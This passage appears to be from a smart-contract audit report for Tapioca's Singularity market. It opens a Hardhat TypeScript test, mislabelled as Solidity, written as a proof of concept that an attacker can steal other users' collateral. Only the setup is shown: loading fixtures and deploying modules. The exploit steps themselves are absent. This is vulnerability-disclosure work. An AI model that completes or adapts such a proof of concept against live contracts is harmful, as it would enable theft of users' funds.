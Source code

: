 - We'll need to create a new test file with the following code, ***make sure to create this file in the same folder as the `tapioca-bar-audit/test/leverage.test.ts` file***

```solidity
import hre, { ethers } from 'hardhat';
import { expect } from 'chai';
import { BN, getSGLPermitSignature, register } from './test.utils';
import {
    loadFixture,
    takeSnapshot,
} from '@nomicfoundation/hardhat-network-helpers';
import { LiquidationQueue__factory } from '../gitsub_tapioca-sdk/src/typechain/tapioca-periphery';

describe('Singularity test - PoC to demonstrate how attacker can steal users collaterals', () => {
    describe('Stealing other users collaterals', async () => {
        it('An attacker should be able to steal other users collaterals', async () => {
            const {
                deployer,
                bar,
                eoa1,
                attackerEOA,
                yieldBox,
                weth,
                wethAssetId,
                usdcAssetId,
                mediumRiskMC,
                wethUsdcOracle,
                usdc,
                usd0,
                __wethUsdcPrice,
                deployCurveStableToUsdoBidder,
                multiSwapper,
                BN,
                timeTravel,
            } = await loadFixture(register);
            //deploy and register USDO

            const usdoStratregy = await bar.emptyStrategies(usd0.address);
            const usdoAssetId = await yieldBox.ids(
                1,
                usd0.address,
                usdoStratregy,
                0,
            );

            //Deploy & set Singularity
            const _sglLiquidationModule = await (
                await ethers.getContractFactory('SGLLiquidation')
            ).deploy();
            await _sglLiquidationModule.deployed();
            const _sglBorrow = await (
                await ethers.getContractFactory('SGLBorrow')
            ).deploy();
            await _sglBorrow.deployed();
            const _sglCollateral = await (
                await ethers.getContractFactory('SGLCollateral')
            ).deploy();
            await _sglCollateral.deployed();
            const _sglLeverage = await (
                await ethers.getContractFactory('SGLLeverage')
            ).deploy();
            await _sglLeverage.deployed();

            const collateralSwapPath = [usd0.address, weth.address];
```